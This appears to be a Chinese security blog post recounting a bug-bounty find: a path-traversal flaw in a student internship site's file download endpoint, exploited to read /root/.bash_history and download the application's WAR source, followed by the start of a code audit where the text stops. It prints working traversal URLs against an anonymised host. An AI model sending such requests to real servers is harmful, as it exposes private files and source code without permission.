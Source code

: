 #  一次文件下载漏洞获取源代码审计   
原创 有恒  有恒安全   2024-06-07 19:33  
  
之前挖src，挖到一个网站存在文件下载漏洞，想通过文件下载获取源码，但历史命令一直没有管理员操作源码的命令。功夫不负有心人，经过一年不断得下载历史命令，终于成功下载到源码。  
  
**漏洞点：**  
  
**一、文件下载漏洞**  
  
在上传附件处，可将上传的文件进行下载。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib8XCmrQkzUHkjWu63gxFibAH6cbNnlYX09vLETMhlqPdq2h0ELYJbz3EhaSvWr5WF8CRr36waMoSbw/640?wx_fmt=png&from=appmsg "")  
  
下载链接为：  
  
https://xxxx.com/internships/student/task/apply/localDownloadFile?filePath=xxx/xxx/xxx/xxx/xxxx.pdf&fileName=1(1).pdf  
  
构造请求地址，可下载到历史命令：  
  
https://xxxx.com/internships/student/task/apply/localDownloadFile?filePath=../../../../root/.bash_history&fileName=1.txt  
  
  
查看历史命令，拼接出源码路径为/root/student.war  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib8XCmrQkzUHkjWu63gxFibAH1fCeAztVVfc9HWEgQuELAZ3bEqCh7OLRFsicQxa8LFOSNABQ9XxhGMg/640?wx_fmt=png&from=appmsg "")  
  
  
成功下载到源码  
  
https://xxxx.com/internships/student/task/apply/localDownloadFile?filePath=../../../../root/student.war&fileName=4.war  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib8XCmrQkzUHkjWu63gxFibAHq3iaIicP1qwEvBicgTH93zNWofxhYyQ2OiaCp6LGp9QicGnGh8ibNBwuN1tA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**二、反编译war文件**  
  
将war文件改为zip后缀再解压即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9mHxZ9DicM6mMBqFic3Dj46XH9j2Y7fZoJAAqyjY0PMoKU8xW0w4nx9IHabV1bkXr0xm1ibPjZw8Eicw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9mHxZ9DicM6mMBqFic3Dj46XVNFgt9j8xEqwWaGomrBtjJNpnF5pn7Epl4JhxVmia90Rn6EE2Og2IhQ/640?wx_fmt=png&from=appmsg "")  
  
再使用idea打开文件夹  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uib9mHxZ9DicM6mMBqFic3Dj46Xniaic4P4PictY1KBLZjKrrreVxqCq0GCDAfDX0SJz4lJib75DMlQj5ufSA/640?wx_fmt=png&from=appmsg "")  
  
**三、代码审计**  
  
**漏洞1：文件下载**  
  
先查看刚才的文件下载漏洞代码，****  
  
https://xxxx.com/internships/student/task/apply/localDownloadFile?filePath=xxx/xxx/xxx/xxx/xxxx.pdf&fileName=1(1).pdf  
  